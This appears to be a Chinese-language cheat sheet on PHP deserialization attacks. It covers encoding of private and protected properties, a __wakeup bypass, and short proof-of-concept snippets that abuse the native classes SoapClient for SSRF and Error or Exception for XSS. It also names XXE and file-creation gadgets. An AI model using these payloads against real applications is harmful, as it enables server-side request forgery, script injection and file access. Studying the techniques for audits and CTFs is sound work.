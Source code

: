 # Unserialize

* ### 反序列化函数赋值

protected op --&gt; \00\*\00op

class Name{

private op --&gt; \00Name\00op

* ### \_\_wakeup 魔术方法绕过

更改序列化后变量个数使其超过真实变量个数完成绕过\_\_wakeup\(\)魔术方法

* ### php原生类的反序列化

使用情况：代码审计中存在反序列化点，但在进行反序列化的时候无法寻找到对应的pop链

序列化魔术方法：

```
当对象被创建的时候调用: __construct
当对象被销毁的时候调用: __destruct
当对象被当做一个字符串的时候调用（不仅仅是echo的时候,比如file_exists()判断也会触发): __toString
序列化对象之前就调用此方法(其返回需要是一个数组): __sleep
反序列化恢复对象之前就调用此方法: __wakeup
当调用对象中不存在的方法会自动调用此方法: __call
```

调用__call魔术方法的原生类：

SoapClient

* SSRF

  ```
  <?php
  $a = new SoapClient(null,array('uri'=>'http://example.com:5555', 'location'=>'http://example.com:5555/aaa'));
  $b = serialize($a);
  echo $b;
  $c = unserialize($b);
  $c->a();
  ```

  仅限http与https协议

调用__toString魔术方法的原生类：

* Error（适用于php7）

  XSS（开启报错的情况下）

  ```
  <?php
  $a = new Error("<script>alert(1)</script>");
  $b = serialize($a);
  echo urlencode($b);
  ```

* Exception（适用于php5、7版本）

  XSS（开启报错的情况下）

  ```
  <?php
  $a = new Exception("<script>alert(1)</script>");
  $b = serialize($a);
  echo urlencode($b);
  ```

实例化任意类找__construct

```
获取目录：DirectoryIternator
XXE：SimpleXMLElement
创建空白文件：SQLite3
```



